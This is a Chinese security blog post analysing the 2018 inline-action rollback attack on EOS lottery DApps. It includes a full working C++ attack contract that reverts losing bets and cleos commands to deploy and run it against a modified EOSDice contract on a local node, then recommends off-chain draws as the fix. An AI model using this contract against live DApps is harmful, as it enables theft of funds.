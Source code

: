 ```yaml
---
title: EOS DApp 漏洞分析 - inline action 交易回滚攻击
date: 2019-05-16 23:03:59
permalink: eos-DApp-revert
category:
    - 区块链安全
tags:
    - 回滚攻击
author: 零时科技
---
```


在去年（2018年）多个 EOS DAPP 发生了交易回滚攻击，这也是很典型的攻击方式，针对这个漏洞，深入浅出区块链社区伙伴零时科技安全团队进行了详细的分析及攻击过程复盘。

<!-- more -->

## 背景

2018年12月，EOS上多个抽奖 DApp 被黑客攻击。黑客是采用了 `inline action` 回滚攻击的技术实施攻击，并获利数千EOS。

## 技术点：action 

有一些EOS 抽奖类 DApp 采用了 `inline action` 方式进行开奖，导致被黑客攻击。
我们先来看一下 `inline action`和`defer action`分别是什么：

> action就是EOS上消息（EOS系统是以消息通信为基础的）的载体。如果想调用某个智能合约，那么就要给它发 `action` 消息。

* **inline action**
    内联交易：多个不同的`action`在一个`transaction`中（在一个交易中触发了后续多个 Action ），在这个 `transaction` 中，只要有一个 `action` 异常，则整个`transaction` 会失败，所有的 `action` 都将会回滚。

* **defer action**
    延迟交易：两个不同的`action`在两个`transaction`中，每个`action`的状态互相不影响。
    
## 攻击技术分析

了解了上述知识之后，我们分析来黑客攻击流程：
* 首先，部署自己的攻击合约；
* 其次，在合约中进行下注操作；
* 随后，使用 `inline action` 查询自己的余额判断是否中奖，若未中奖，则抛出异常。此时，由于下注 `action` 和攻击的 `action` 在同一 `transaction` 中，那么，攻击`action`异常会导致下注的失败。那么黑客可以实现不中奖就不用付出EOS。

### 攻击合约
下面，我们给出攻击的测试合约

```c++
#include <utility>
#include <vector>
#include <string>
#include <eosiolib/eosio.hpp>
#include <eosiolib/time.hpp>
#include <eosiolib/asset.hpp>
#include <eosiolib/contract.hpp>
#include <eosiolib/types.hpp>
#include <eosiolib/transaction.hpp>
#include <eosiolib/crypto.h>
#include <boost/algorithm/string.hpp>
#include "eosio.token.hpp"

using eosio::asset;
using eosio::permission_level;
using eosio::action;
using eosio::print;
using eosio::name;
using eosio::unpack_action_data;
using eosio::symbol_type;
using eosio::transaction;
using eosio::time_point_sec;


class attack : public eosio::contract {
    public:
        attack(account_name self):eosio::contract(self)
        {}

        //@abi action
        void rollback(asset in)
        {
            require_auth(_self);
            asset pool = eosio::token(N(eosio.token)).get_balance(_self, symbol_type(S(4, EOS)).name());
            eosio_assert(in.amount > pool.amount, "rollback");
        }

        //@abi action
        void hi(asset bet)
        {
            require_auth(_self);
            asset pool = eosio::token(N(eosio.token)).get_balance(_self, symbol_type(S(4, EOS)).name());
            std::string memo = "dice-noneage-66-user";
			action(
                permission_level(_self, N(active)),
                N(eosio.token), N(transfer),
                std::make_tuple(_self, N(eosbocai2222), bet, memo)
            ).send();

            action(
               permission_level{_self, N(active)},
                _self, N(rollback),
                std::make_tuple(pool)
            ).send();
        }
};

#define EOSIO_ABI_EX( TYPE, MEMBERS ) \
extern "C" { \
   void apply( uint64_t receiver, uint64_t code, uint64_t action ) { \
      auto self = receiver; \
      if( code == self || code == N(eosio.token)) { \
         if( action == N(transfer)){ \
                eosio_assert( code == N(eosio.token), "Must transfer EOS"); \
         } \
         TYPE thiscontract( self ); \
         switch( action ) { \
            EOSIO_API( TYPE, MEMBERS ) \
         } \
         /* does not allow destructor of thiscontract to run: eosio_exit(0); */ \
      } \
   } \
}

EOSIO_ABI_EX( attack,
        (hi)(rollback)
)
```

由于开源的抽奖EOS DApp 采用 `inline action` 的较少，因此我们将 `EOSDice` 合约开奖的 `defer action` 改为了 `inline action` 来做测试。

### 攻击测试流程

1. 创建相关账户并设置权限

    ```bash
    # 创建攻击者相关账户权限
    cleos create account eosio attacker EOS6xKEsz5rXvss1otnB5kD1Fv9wRYLmJjQuBefRYaDY7jcfxtpVk
    cleos set account permission attacker active '{"threshold": 1,"keys": [{"key": "EOS6kSHM2DbVHBAZzPk7UjpeyesAGsQvoUKyPeMxYpv1ZieBgPQNi","weight": 1}],"accounts":[{"permission":{"actor":"attacker","permission":"eosio.code"},"weight":1}]}' owner -p attacker
    ```


2. 向相关账户发送代币

    ```bash
    cleos push action eosio.token issue '["attacker", "10000.0000 EOS", "memo"]' -p eosio
    cleos push action eosio.token issue '["eosbocai2222", "10000.0000 EOS", "memo"]' -p eosio
    
    ```

3. 编译并部署相关合约

    ```bash
    # 编译攻击合约
    eosiocpp -o attack.wast attack.cpp
    eosiocpp -g attack.abi attack.cpp
    # 部署攻击合约
    cleos set contract attacker ~/attack -p attacker@owner
    
    # 编译EOSDICE合约
    eosiocpp -o eosdice.wast eosbocai2222.cpp
    eosiocpp -g eosdice.abi eosbocai2222.cpp
    
    # 部署EOSDICE合约
    cleos set code eosbocai2222 eosdice.wasm -p eosbocai2222@owner
    cleos set abi eosbocai2222 eosdice.abi -p eosbocai2222@owner

    ```

4. 初始化测试合约

    ```bash 
    cleos push action eosbocai2222 init '[""]' -p eosbocai2222
    
    ```

5. 使用合约攻击测试DApp

    ```bash
    cleos push action attacker hi '["1.0000 EOS"]' -p attacker@owner
    ```

![攻击开奖成功](https://img.learnblockchain.cn/2019/05/15580205427769_r6mgx0skw18celvz.jpg)


上图是开奖成功的正常流程

![开奖失败](https://img.learnblockchain.cn/2019/05/15580205661972_u7j8bkza7fmrmrco.jpg)


上图是开奖失败，合约攻击合约抛出异常，转账事务发生回滚。

![](https://img.learnblockchain.cn/2019/05/15580205968951_8orm558sidinc3in.jpg)


## 推荐修复方法

在抽奖DApp使用 `defer action` 进行开奖可以避免本文分析的`inline action`交易回滚攻击，但是**链上开奖机制或许也不再安全**。建议使用链下开奖逻辑进行开奖。


本文所有过程均在本地测试节点完成，文章用到的所有代码在[NoneAge Github](https://github.com/NoneAge/EOS_DApp_Security_Incident_Analysis)。

本文由深入浅出区块链社区合作伙伴-[零时科技安全团队](http://www.noneage.com/)提供。

[深入浅出区块链](https://learnblockchain.cn/) - 系统学习区块链，学区块链都在这里，打造最好的区块链技术博客。
